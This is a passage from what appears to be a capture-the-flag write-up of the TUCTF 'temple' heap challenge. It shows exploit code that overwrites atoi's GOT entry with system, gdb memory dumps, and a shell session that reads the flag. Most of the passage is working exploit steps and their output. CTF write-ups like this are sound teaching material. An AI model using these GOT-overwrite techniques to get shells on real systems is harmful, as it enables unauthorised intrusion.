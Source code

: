 ```python
# overwrite heap pointer with atoi's GOT entry
edit(8, p64(9) + p64(atoi_got))
```

```
0x625180:	0x0000000000000031	0x0000000000000031 <-- chunk 8
0x625190:	0x0000000000000051	0x00000000006251c0 <-- dataptr 8
0x6251a0:	0x0000000000000008	0x0000000000401d61
0x6251b0:	0x0000000000000031	0x0000000000000031 <-- new chunk 
0x6251c0:	0x0000000000000009	0x0000000000603098 <-- new chunk dataptr => atoi GOT
0x6251d0:	0x000000000000000a	0x0000000000401d61
```

```python
edit(12, p64(system))
```

```
gdb-peda$ x 0x0000000000603098
0x603098:	0x00007ffff7a52390
gdb-peda$ x 0x00007ffff7a52390
0x7ffff7a52390 <__libc_system>:	0xfa86e90b74ff8548
```

Voila! Next time we're prompted with the menu option, we can enter `sh` which will go through what is supposed to be `atoi` but it's `system` instead and we'll get a gorgeous shell!

```
[+] atoi:   0x7ffff7a43e80
[+] Libc:   0x7ffff7a0d000
[+] system: 0x7ffff7a43e80
[*] Switching to interactive mode
$ pwd
/home/admin/chal
$ ls
flag.txt
start.sh
temple
temple.txt
$ cat flag.txt
TUCTF{0n3_Byt3_0v3rwr1t3_Ac0lyt3}
```



